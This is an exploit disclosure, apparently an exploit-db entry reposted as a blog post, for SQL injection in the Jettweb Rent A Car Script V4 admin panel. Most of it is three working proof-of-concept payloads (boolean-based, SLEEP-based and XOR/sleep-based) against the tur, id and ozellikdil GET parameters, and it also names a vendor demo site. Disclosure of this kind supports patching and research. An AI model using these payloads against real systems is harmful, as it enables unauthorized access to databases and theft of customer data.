 ```yaml
---
layout:     post
title:      "Jettweb Rent A Car V4 - SQL Injection"
date:       2019-03-26 12:06
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Jettweb Hazır Rent A Car Scripti V4 - SQL Injection
# Date: 26.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://jettweb.net/u-46-php-hazir-rent-a-car-scripti-v4.html
# Demo Site: http://rentv4.proemlaksitesi.net/
# Version: V4
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request:
http://localhost/[PATH]/admin/index.php?admin=vitestipi&tur=VitesTipi
Vulnerable Parameter: tur (GET)
Payload: admin=vitestipi&tur=VitesTipi' AND 2211=2211 AND 'fVeE'='fVeE


----- PoC 2: SQLi -----

Request: http://localhost/[PATH]/admin/index.php?admin=rez-gor&id=2
Vulnerable Parameter: id (GET)
Payload: admin=rez-gor&id=2 AND SLEEP(5)

----- PoC 3: SQLi -----

Request: http://localhost/[PATH]/admin/index.php
Vulnerable Parameter: ozellikdil (GET)
Payload:
admin=ozellikekle&itemid=1&ozellikdil=0'XOR(if(now()=sysdate()%2Csleep(0)%2C0))XOR'Z&syf=ceviriguncelle&tur=VitesTipi
            
